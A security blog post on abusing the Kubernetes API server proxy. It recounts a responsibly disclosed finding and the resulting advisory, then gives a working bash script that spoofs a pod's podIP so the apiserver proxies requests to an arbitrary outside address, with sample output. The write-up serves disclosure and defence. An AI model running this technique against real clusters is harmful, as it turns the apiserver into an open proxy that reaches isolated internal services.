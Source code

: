 +++
authors = ["Michael Schubert"]
date = "2019-02-01T12:00:00+02:00"
description = "Abusing Kubernetes API server proxying"
draft = false
tags = ["kubernetes", "security"]
title = "Abusing Kubernetes API server proxying"
topics = ["kubernetes", "security"]
postImage =  "article-hero.jpg"
+++

The [Kubernetes API server
proxy](https://kubernetes.io/docs/concepts/cluster-administration/proxies/)
allows a user outside of a Kubernetes cluster to connect to cluster IPs which
otherwise might not be reachable. For example, this allows accessing a service
which is only exposed within the cluster’s network. The apiserver acts as a
proxy and bastion between user and in-cluster endpoint.

<figure class="img-fluid w-75 mx-auto">
	<img src="/media/kubernetes-apiserver-proxying.svg" class="img-fluid">
</figure>

### API server proxy security advisory

Last summer, while performing penetration testing, we found an issue with
Kubernetes API server proxying. We took this discovery to the [private
Kubernetes security
list](https://kubernetes.io/docs/reference/issues-security/security/#report-a-vulnerability)
which recently lead to a [security
advisory](https://groups.google.com/forum/#!topic/kubernetes-dev/P0ghX_DViy8).

"_Operators of the API server are strongly advised to operate the Kubernetes
API server in the same network as the nodes or firewall it sufficiently. It is
highly recommended to not run any other services you wish to be secure and
isolated on the same network as the cluster unless you firewall it away from
the cluster, specifically any outbound connections from the API server to
anything else. The Kubernetes control plane has many user-configurable features
(aggregated APIs, dynamic admission webhooks, and conversion webhooks coming
soon) which involve the Kubernetes API server sourcing network traffic._"

Prior to the advisory an [update to
Kubernetes](https://github.com/kubernetes/kubernetes/pull/71980/files) was made
where proxy functionality was disabled for loopback and link-local addresses.
That makes it no longer possible to abuse apiserver proxying for pods to
reach, for example,  sidecar containers or the well-known link-local address
169.254.169.254. This address is commonly used for meta data services in cloud
environments (e.g. AWS) and often gives access to secret data.

### API server remains open to abuse

It's great that we've now got those cases covered, but the apiserver still can
be abused as an open HTTP proxy. Thus, it remains crucial to isolate the
network correctly. Let's take a closer look to understand why this is.

The interesting question to investigate is, "Can we trick the
apiserver into connecting to IP addresses that are not part of the cluster’s
network and not assigned to a pod or service in the cluster?" Additionally, in a
Kubernetes setup where the Kubernetes API server is operated in a different
network than the worker nodes (as for example on GKE): can we abuse the
apiserver’s built-in proxy to send requests to IP addresses within the
apiserver’s network or to sidecar containers of it (in a [self-hosted Kubernetes cluster](https://github.com/kubernetes-incubator/bootkube))
that are not meant to be reachable for users at all?

When the apiserver receives a proxy request for a service or pod, it looks up
an [endpoint](https://kubernetes.io/docs/reference/generated/kubernetes-api/v1.13/#endpoints-v1-core)
or pod IP address to forward the request to. Both endpoint and pod IP are
populated from the pod’s [status](https://kubernetes.io/docs/reference/generated/kubernetes-api/v1.13/#podstatus-v1-core)
which contains the `podIP` field as reported by the kubelet. So what happens if
we send our own pod status for a nginx pod as shown in the following script?

```
#!/bin/bash

set -euo pipefail

readonly PORT=8001
readonly POD=nginx-7db75b8b78-r7p79
readonly TARGETIP=172.217.19.78

while true; do
  curl -v -H 'Content-Type: application/json' \
    "http://localhost:${PORT}/api/v1/namespaces/default/pods/${POD}/status" >"${POD}-orig.json"

  cat $POD-orig.json |
    sed 's/"podIP": ".*",/"podIP": "'${TARGETIP}'",/g' \
      >"${POD}-patched.json"

  curl -v -H 'Content-Type:application/merge-patch+json' \
    -X PATCH -d "@${POD}-patched.json" \
    "http://localhost:${PORT}/api/v1/namespaces/default/pods/${POD}/status"

  rm -f "${POD}-orig.json" "${POD}-patched.json"
done
```

From the apiserver’s perspective, the pod now has IP address 172.217.19.78.
When we try to connect to the pod via kubectl proxy, the apiserver will in fact
establish a HTTP connection to 172.217.19.78, our target IP.

```
curl localhost:8001/api/v1/namespaces/default/pods/nginx-7db75b8b78-r7p79/proxy/
…
<a href="//www.google.com/"/><span id="logo" aria-label="Google"></span></a>
...
```

As demonstrated, we can indeed trick the apiserver. The moral of this story is to follow the advisory's recommendation and isolate your network properly.


If you need help improving the security of your Kubernetes environment, please contact us
at [hello@kinvolk.io](mailto:hello@kinvolk.io).
